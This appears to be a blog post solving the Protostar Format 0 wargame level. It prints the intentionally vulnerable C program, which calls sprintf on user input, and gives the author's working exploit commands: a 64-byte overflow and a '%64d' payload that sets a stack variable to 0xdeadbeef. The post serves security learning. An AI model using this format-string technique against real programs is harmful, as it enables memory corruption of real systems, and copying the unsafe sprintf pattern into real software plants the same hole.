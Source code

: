 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Format 0"
date: 2012-01-24T05:13:00-05:00
comments: true
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


I'll be honest, I'm new to format string exploits.  I've been more experienced with stack overflows, and a little with heap overflows.  So hopefully this information is correct, as it's from my current understanding. 

[Protostar Format 0](http://exploit-exercises.com/protostar/format0) starts us off with the following vulnerable code: 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
 volatile int target;
 char buffer[64];

 target = 0;

 sprintf(buffer, string);

 if(target == 0xdeadbeef) {
  printf("you have hit the target correctly :)\n");
 }
}

int main(int argc, char **argv)
{
 vuln(argv[1]);
}
```

Looking at this code, somehow we have to get the variable, "target", which is never set anywhere other than to "0", to equal "0xdeadbeef".  Luckily, the "target" variable is on the stack, right before the "buffer" variable.  That means, if we can overflow "buffer", it'll leak out into "target". I decided for my understanding, that I would modify the c source file a little, so I could see what was going on better.  I added in 3 additional printf statements.  (This is mainly because I wasn't smart enough to get gdb to tell me where "buffer" and "target" were in memory.) 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
        volatile int target;
        char buffer[64];

        target = 0;

        sprintf(buffer, string);

        printf("Target: %08x\n", target);
        printf("Address of target: %08x\n", &target);
        printf("Address of buffer: %08x\n", &buffer);

        if(target == 0xdeadbeef) {
                printf("you have hit the target correctly :)\n");
        }
}

int main(int argc, char **argv)
{
        vuln(argv[1]);
}
```

Now, when I execute my custom compiled version, it gives me useful information:

```
user@protostar:~$ ./format0_1
Target: 00000000
Address of target: bffff7bc
Address of buffer: bffff77c
```
Just to verify that there was no spacing after "buffer" and before "target", I took those 2 values, and did some math: 

```
user@protostar:~$ perl -e 'print 0xbffff7bc-0xbffff77c . "\n"'
64
```

Initially, I thought this looked a lot like a stack overflow, especially since it did work as one: 

```
user@protostar:/opt/protostar/bin$ ./format0 `perl -e 'print "A"x64 . "\xef\xbe\xad\xde"'`
you have hit the target correctly :)
```

This is cheating though, since this is to demonstrate format string exploitation, and the [Format 0](http://exploit-exercises.com/protostar/format0) page says specifically:

{% blockquote %}
"This level should be done in less than 10 bytes of input."
{% endblockquote %}

So grumbling that I was going to have to do extra work, I started reading about string format exploitation.  A great document was titled ["Exploiting Format String Vulnerabilities"](http://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf), by scut / team teso</a>. 

It was in this document, that I found that you can actually tell the c compiler to read a certain number of bytes into a format.  I had seen this done half a dozen times before, but never knew that's what it was doing.  For example: 

```
printf("Target: %08x\n", target);
```

Normally for a hex formatting, you would simply use "%x" as the placeholder.  Well, apparently if you use "%08x", it will format it with 8 hex characters.  This is so that when "target" is set to 0, it actually prints "0x00000000" instead of "0x0".  Very nice! 

The same works for other types, such as decimal ("%d").  Since in the c program, it's doing: 

```
sprintf(buffer, string);
```

With this code, "string" is the first argument you pass to the program.  Since sprintf won't stop until it reads a null byte (as in a null terminated string), I just formatted it to read 64 bytes, and then concatenated "deadbeef" in little endian to it: 

```
user@protostar:/opt/protostar/bin$ ./format0 `perl -e 'print "%64d" . "\xef\xbe\xad\xde"'`
you have hit the target correctly :)
```

You could also format it with the "%64d" not in the perl statement, but I don't think it looks as readable. 

```
user@protostar:/opt/protostar/bin$ ./format0 %64x`perl -e 'print "\xef\xbe\xad\xde"'`
```

So there you have it.  That's definitely under 10 bytes of input.  I still have room for 2 more bytes if I need.

